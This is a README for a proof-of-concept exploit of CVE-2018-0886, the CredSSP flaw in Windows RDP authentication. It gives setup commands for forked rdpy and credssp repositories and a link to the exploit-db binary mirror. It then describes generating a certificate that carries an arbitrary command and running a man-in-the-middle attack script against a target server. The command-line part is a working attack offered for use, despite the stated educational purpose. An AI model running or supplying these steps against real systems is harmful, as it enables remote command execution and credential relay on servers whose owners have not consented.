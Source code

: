# credssp

This is a poc code for exploiting CVE-2018-0886. It should be used for educational purposes only.
It relies on a fork of the rdpy project(https://github.com/preempt/rdpy), allowing also credssp relay.


Written by Eyal Karni, Preempt
ekarni@preempt.com

# Build

## Instructions (Linux)
If you are using Ubuntu 14 , check the install file..
It was tested on Ubuntu 16.04.

```
$ git clone https://github.com/preempt/rdpy.git rdpy
$ git clone https://github.com/preempt/credssp.git
$ cd credssp/install
$ sh install.sh
$ cd ../../rdpy
$ sudo python setup.py install
```

EDB Mirror: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/44453.zip

* It assumes a pretty clean inital state. Best to uninstall first relevant compontants such as cryptography,pyopenssl maybe (pip uninstall cryptography).
* A different version of openssl needed to be installed for this to run successfully.  The install script does that.
* Please follow the instructions in the described order.

# Running the exploit


Export a certificate suitable for Server Authentication from any domain.


To generate a suitable certificate for the command to execute :

```
$ python credssp/bin/gen_cmd.py -c ExportedCert -o exploitc.pem -k exploitk.pem CMD
```

(exploitc.pem ,exploitk.pem are the generated certificate and private key respectively)

To run the attack script:

```
$ python /usr/local/bin/rdpy-rdpcredsspmitm.py -k exploitk.pem -c exploitc.pem TargetServer
```

More details are in the usage section of the scripts(--help).